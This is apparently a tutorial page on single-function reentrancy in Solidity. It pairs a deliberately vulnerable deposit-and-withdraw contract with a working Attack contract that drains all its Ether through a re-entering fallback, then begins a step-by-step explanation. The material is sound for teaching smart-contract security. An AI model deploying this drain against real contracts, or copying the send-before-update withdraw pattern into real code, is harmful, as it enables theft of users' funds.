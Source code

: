 ## Single-Function Reentrancy

This is a vulnerability where a function within the contract can be called multiple times in quick successions before the first execution of that function completes. This can lead to loss of funds or unexpected behavior within the contract. Lets start by a theoretical example, Imagine a scenario where a function in a smart contract makes an external call to another contract that is not trusted, if the function does't complete its execution before the external contract calls back into the initial contract function and the function is not designed to handle the call properly, it might execute the same function again while the same function is ongoing. Tricky right, enough with the stories lets look at a coding example.

## Example 1

Below is a contract where you can deposit and withdraw ETH, lets see how the contract can be exploited.

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract VulnerableStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

   // get the balance
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

```

Good now that our users are able to interact with our contract by withdrawing and depositing lets see how we can get all the money out of the contract.

```solidity

contract Attack {
   VulnerableStore public vulnerableStore;
    uint256 constant public AMOUNT = 1 ether;

    constructor(address _vulnerablestoreAddress) {
        vulnerableStore = VulnerableStore(_vulnerablestoreAddress);
    }

    // Fallback is called when VulnerableStore sends Ether to this contract.
    fallback() external payable {
        if (address(vulnerableStore).balance >= AMOUNT) {
            vulnerableStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= AMOUNT);
        vulnerableStore.deposit{value: AMOUNT}();
        vulnerableStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}


```

**Yyeeeees** we did it but lets now look at what acctually happened. How did we manage to perform the exploit. Our attack contract was able to withdraw all the funds. Below are the steps of how the functions were executed 
1. users are able to deposit using the deposit function. so now lets assume that the contract has funds
2. An attacker deploys the attack function and executes the attack function this function will deposit ETH in our vulnerable store then it will initiate the withdraw function as below

```solidity

function attack() external payable {
    require(msg.value >= AMOUNT) // in our case AMOUNT is some value of ETH say 1 ether
    vulnerableStore.deposit{value: AMOUNT}(); // this is the amount that will be deposited in our VulnerableStore since we can only withdraw if we have some ETH
    vulnerableStore.withdraw();

}

```

**NOTE** If money is sent in our Attack contract the fallback function will be triggered since we received some ether. Why fallback -> when a contract receives ether the fallback and the receive function are triggered, in our case in the fallback function we check that the balance of the vulnerable store is greater than the amount  and call the withdraw again

